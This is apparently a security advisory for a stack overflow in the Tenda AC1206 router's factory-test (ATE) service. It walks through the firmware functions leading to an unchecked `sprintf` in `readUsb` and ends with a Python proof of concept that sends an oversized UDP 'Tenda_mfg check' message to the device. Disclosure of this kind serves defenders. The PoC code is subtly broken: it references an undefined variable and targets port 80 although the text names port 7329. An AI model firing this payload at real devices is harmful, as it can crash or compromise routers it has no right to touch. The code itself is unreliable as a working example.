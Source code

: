 # Description



Tenda AC1206 `ate_Tenda_mfg_check_usb3` and `ate_Tenda_mfg_check_usb` has stack overflow vulnerability

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version



V15.03.06.23 and earlier

# details



When accessing `url:/goform/ate`, `TendaAte` will be called

![](w01.png)



The `TendaAte` function creates a thread and calls `ate_main_handle`, but, the recv_buf stack var size is ***4096***,  and recv from socket most ***0x1000***

![](000.png)

![](001.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

![](01.png)

When `command` is `Tenda_mfg`and `arg` is `check` or `check USB3.0`, the `ate_Tenda_mfg_check_usb ` or `ate_Tenda_mfg_check_usb3` function is called, the both functions are similar, like:

![](02.png)

![](03.png)

![](04.png)



in `readUsb` function,  the variale `mntFileName` size is ***512*** char, but , there use `sprintf` function to format the two variables into `mntFileName`, there is no ckeck , And will cause stack overflow. maybe cause RCE, furtherly

![](05.png)



![](06.png)

poc:

```python
import socket
import time
import os

os.system('curl http://172.30.214.100/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.30.214.100', 80)
command = b's' * 999
message = b'Tenda_mfg check'+ chars

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```



